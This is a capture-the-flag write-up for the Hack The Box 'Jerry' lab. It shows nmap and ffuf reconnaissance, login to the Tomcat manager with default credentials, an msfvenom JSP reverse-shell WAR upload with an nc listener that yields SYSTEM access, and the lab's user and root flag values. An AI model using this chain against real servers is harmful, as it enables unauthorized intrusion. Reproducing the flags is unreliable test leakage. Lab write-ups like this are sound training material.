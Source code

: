 ## Jerry

### Lab Details 

- Difficulty: Easy
- Type: Apache Tomcat, Web Exploit, Windows

#### Tasks
Q1: Which TCP port is open on the remote host?
- run `nmap -sT -T4 -vv -A -p- -oA Jerry 10.10.10.95`
```
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
```

Q2: Which web server is running on the remote host? Looking for two words.
- from output of nmap, the web server is Apache Tomcat serves Java web apps

Q3: Which relative path on the webserver leads to the Web Application Manager?
- you can run ffuf or visit `http://10.10.10.95:8080/` and click on 'Manager App' top right corner
- below is output of ffuf
```
ffuf -u http://10.10.10.95:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.95:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

<snip>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 341ms]
    * FUZZ: manager
<snip>
```
Q4: What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password
- find is located at /manager/html from 403 response, if you entere password too many times 403 page will be served
- can use curl
```
$: curl http://10.10.10.95:8080/manager/html       
<snip>
  <title>401 Unauthorized</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>401 Unauthorized</h1>
   <p>
    You are not authorized to view this page. If you have not changed
    any configuration files, please examine the file
    <tt>conf/tomcat-users.xml</tt> in your installation. That
    file must contain the credentials to let you use this webapp.
   </p>
   <p>
    For example, to add the <tt>manager-gui</tt> role to a user named
    <tt>tomcat</tt> with a password of <tt>s3cret</tt>, add the following to the
    config file listed above.
   </p>
<pre>
&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;
</pre>
<snip>
```

Q5: Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?
- Tomcat can serve jsp file and able to process WAR or java class files, in this case its WAR
- after login in at the bottom of the page allow you to upload a war file
- use msfvenom to generate a web reverse shell and upload it
- once uploaded set up a local nc and click on our shell.war
```
$: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=4444 -f war > shell.war
Payload size: 1101 bytes
```

Q6: Get user and root flag
- the reverse shell gives nt authority \ system which is the highest level of access on a local windows machine
```
$: nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,601,408,000 bytes free

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,408,000 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>^C
```



#### Lesson Learned
